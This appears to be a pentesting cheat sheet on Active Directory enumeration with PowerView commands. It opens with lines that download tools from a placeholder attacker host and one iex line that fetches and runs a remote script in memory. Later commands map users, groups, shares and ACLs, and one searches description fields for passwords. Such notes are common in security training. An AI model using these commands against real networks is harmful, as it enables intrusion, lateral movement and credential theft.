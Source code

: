 # Active Directory enumeration

## Downloading our tools

We can download files onto disk using: 
    `certutil.exe` inside cmd,
    `Invoke-WebRequest` (or it's wget/curl alias) inside powershell.

```powershell
certutil.exe -urlcache -f http://RHOST:RPORT/file.ps1 file.ps1
Invoke-WebRequest http://RHOST:RPORT/file.ps1 -OutFile file.ps1
```

We can also load files straight into memory using `iex`.

```powershell
iex (New-Object Net.WebClient).DownloadString("http://RHOST:RPORT/file.ps1")
```

## Enumerating users

```powershell
Get-NetUser
Get-NetUser | Select cn
Get-NetUser | Select -ExpandProperty samaccountname
Find-UserField -SearchField description "pass"
Invoke-EnumerateLocalAdmin
```

## Enumerating groups

```powershell
Get-NetGroup
Get-NetGroup -UserName "USERNAME"
Get-NetGroup -GroupName "GROUPNAME" -FullData
```

## Enumerating computers and shares

```powershell
Get-NetComputer
Get-NetComputer -FullData
Get-NetComputer -OperatingSystem "*windows 10*"
Get-NetComputer -OperatingSystem "*server 2019*"
Invoke-ShareFinder 
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC 
```

## Enumerating misc.

```powershell
Get-NetDomain
Get-NetGPO
Get-ObjectACL
```
